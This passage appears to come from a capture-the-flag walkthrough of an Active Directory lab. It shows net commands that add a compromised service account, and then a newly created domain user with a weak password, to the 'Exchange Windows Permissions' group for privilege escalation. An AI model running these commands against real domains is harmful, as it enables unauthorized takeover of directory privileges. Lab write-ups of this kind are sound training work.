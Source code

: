 `net group "Exchange Windows Permissions" svc-alfresco /add`

![](images/forest12.png)

But a minute or two later the user was removed from the group and no longer there. So I try and create a new user and add it. After waiting a couple minutes it's still there so we should be good now.

NOTE: We're able to add users because we're a member of the "Account Operators" group.

`net user jdotinfo Password1 /add /domain`

`net group "Exchange Windows Permissions" jdotinfo /add`
